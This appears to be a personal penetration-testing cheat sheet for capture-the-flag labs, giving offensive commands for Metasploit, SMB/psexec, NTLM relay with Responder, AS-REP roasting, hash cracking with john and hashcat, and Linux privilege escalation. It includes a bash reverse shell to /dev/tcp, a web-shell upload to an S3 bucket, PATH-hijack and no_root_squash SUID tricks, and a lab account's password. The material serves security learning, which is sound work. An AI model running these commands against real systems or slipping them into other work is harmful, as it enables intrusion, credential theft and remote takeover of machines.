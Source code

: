 # Tools
Helpful resources
 - https://gowthams.gitbook.io/bughunter-handbook/  (quick reference)
 - https://exploit-notes.hdks.org (quick reference) 
 - https://portswigger.net/web-security/dashboard
 - https://cloud.hacktricks.xyz/welcome/readme
 - https://gtfobins.github.io/gtfobins/vi/#sudo
### Metasploit
 - use `exploit/...`
 - `show options`
 - `run`
 - After u r in a shell, u can put it in background using `background`.
 - Upgrade most recently opened session `sessions -u -1`.


### ZAP
 - `Tools -> Spider`
 - `Analyze -> Scan Policy Manager` remove the things u do not want to scan for, like if no DB, why SQL scanning?
 - see https://tryhackme.com/room/dastzap for authenticated scan details.

### Redis
 - `sudo apt install redis-tools`
 - `redis-cli -h {target_IP}`
 - `info`
 - `select 0` select db with index number.
 - `keys *`, list keys.
 - `get <key>`.

### xfreerdp
 - `xfreerdp /u:administrator  /v:10.129.1.13` try to connect without password.

### gobuster
 - `gobuster dir -u 10.129.145.11 -w ~/SecLists/Discovery/Web-Content/common.txt`

### mongo
 - ./mongo mongodb://{target_IP}:27017
 - help
 - show dbs;
 - use <db_name>;
 - show collections;
 - db.<collection_name>.find().pretty();

### rsync
 - `rsync --list-only 10.129.204.156::` list directories.
 - `rsync --list-only 10.129.204.156::public` list files within directory, here named public.
 - `rsync {target_IP}::public/flag.txt flag.txt` bring remote flag.txt in my machine.

### Mysql
 - `mysql -h <ip> -u root` to login.
 - SHOW databases; : Prints out the databases we can access.
 - USE {database_name}; : Set to use the database named {database_name}.
 - SHOW tables; : Prints out the available tables inside the current database.
 - SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.

### AWS s3
 - aws --endpoint=http://s3.thetoppers.htb s3 ls
 - aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
 - `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb` to upload

### SSH tunneling
 - `ssh -L 1234:localhost:5432 christine@{target_IP}` locally we will be listening to 1234

### SMB
 - `smbclient \\\\10.10.10.131\\ADMIN$ -U Administrator` list.
 - `smbclient -L 10.129.27.203 -U administrator`.
 - `python psexec.py username:password@hostIP`.
 -  `psexec.py administrator@10.10.10.131`.

### John
 - `zip2john backup.zip > zip.hashes` dumps hashes to file.
 - `john zip.hashes` cracks the password.

### Hashcat
 - `hashcat -a 0 -m 0 admin_hash.txt /usr/share/wordlists/rockyou.txt` crack md5.
 - `hashcat -m 5600 hash.txt rockyou.txt` crach ntlm.

## Scanning
### nmap
 - `nmap --script=smb2-security-mode.nse -p445 <network>/24` find devices with smb signing disabled.
### Rustscan
 - `./rustscan -a 10.129.95.185 -r 1-65535` maybe use rustscan to find open ports first, and then use nmap for service detection and stuff.
 - `rustscan -a 10.10.10.161 -r 1-65535 | grep ^[0-9] |  cut -d '/' -f 1 | tr '\n' ','`, and then can use the ports in nmap
### sqlmap
 - `sqlmap -u "http://10.129.29.21/dashboard.php?search=%27" --cookie="PHPSESSID=f0mn05nbrdadh5164gavl9q4un"`

### Responder
 - `sudo ./test/bin/python Responder.py -I vboxnet0 -rdwv` listen and respond for LLMNR poisioning.
 - `impacket-ntlmrelayx -tf targets.txt -smb2support` pass the hash, targets.txt has victims ip, `-i` to get interactive smb shell, `-e meterpreter.exe`.

### ldap
 - `ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.10.10.161`, -x to check for anonymous login.

### Windapsearch
 - https://github.com/ropnop/windapsearch
 - Requirements to install `udo apt-get install libsasl2-dev python3-dev libldap2-dev libssl-dev `.
 - Enumerate user `python3 windapsearch.py -d htb.local --dc-ip 10.10.10.161 -U `.
 - `python3 windapsearch.py -d htb.local --dc-ip 10.10.10.161 --custom "objectClass=*"`.
## Upgrading shell with TTY session
 - `python3 -c 'import pty;pty.spawn("/bin/bash")'`
### bash
 - `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`, reverse shell.
 - `sudo -l` check sudo permissions.
 - 

# Privilige escalation
### Linux
 - `id` see what groups we are a part of, google to see if these groups have any extra permissions.
 - `sudo -l` check sudo permissions.
 - `getcap -r / 2>/dev/null` to see the capabilities.
 - Check GTFO bin `https://gtfobins.github.io/`.
 - `find / -group <group_name> 2>/dev/null` to find file with certain group permissions.
 - `ls -al` to check if file has sudo permission.
 - If a file uses common binary insecurely, i.e. cat, wihtout fill path, we do create a new file in /tmp like `/tmp/cat`, the content of cat `/bin/sh`
 - and set `export PATH=/tmp:$PATH`, finally run the `suid` bit set file that runs `cat`, we might get it.
 - Scripts that check
  - LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/
  - LinEnum: https://github.com/rebootuser/LinEnum
  - LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
  - Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
  - Linux Priv Checker: https://github.com/linted/linuxprivchecker
 - network mound, if no_root_sqash present `showmount -e victimsIP` `mount -o rw ip:/victimdir local_dir/` make file with suid bit set in local_dir change owner to root run in victims machine.
 - Check for any cronjob, that we can manipulate.


`impacket-GetNPUsers htb.local/svc-alfresco --dc-ip 10.10.10.161 -no-pass
john hash.txt --fork=4 -w=/usr/share/wordlists/rockyou.txt
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`
### Windows
 - `whoami /priv` to see what priviliges you have.
 - See wierd folders and files.
 - `schtasks` in cmd or `ps` in powershell to see processes.
 - 
